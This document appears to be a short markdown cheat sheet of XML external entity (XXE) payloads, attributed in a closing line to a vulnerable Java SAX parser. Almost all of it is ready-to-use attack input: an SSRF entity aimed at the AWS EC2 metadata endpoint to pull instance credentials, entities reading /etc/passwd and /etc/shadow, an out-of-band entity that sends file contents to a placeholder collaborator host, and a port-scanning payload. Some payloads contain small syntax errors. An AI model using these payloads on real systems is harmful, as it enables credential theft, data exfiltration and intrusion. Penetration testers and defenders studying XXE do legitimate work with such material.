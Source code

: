 
# Direct fetch output on screen

- SSRF (AWS EC2 credentials)
```
<!DOCTYPE foo [
    <!ENTITY exploit SYSTEM "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance">
]>
...
<sometag>&exploit;</sometag>
```

- Path traversal and fetching files
```
<!DOCTYPE foo [<!ENTITY exploit SYSTEM "file:///etc/passwd">]>
...
<sometag>&exploit<sometag>
...
```

# Out of Bound XXE, confirmed using Collaborator
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY % xxe SYSTEM "file:///etc/hostname">
    <!ENTITY oobxxe SYSTEM "http://kisijrhufnshbsd.yourcollaboraterserverdomain/?%xxe;">]>
...
...
<Sometag>&oobxxe</Sometag>
...
...
```

# Network enumeration (burp intruder)
```
<?xml version="1.0>
<!DOCTYPE foo [
<!ENTITY portscan SYSTEM "ftp://localhost"$$">    
]>
<foo>START_&portscan;_END</foo>
```

# Path Traversal
```
<?xml version="1.0>
<!DOCTYPE foo [
<!ENTITY LFI SYSTEM "file:///etc/shadow/">    
]>
<foo>START_&LFI;_END</foo>
```


Note - these were found due to vulnerable JAVA SAX XML parser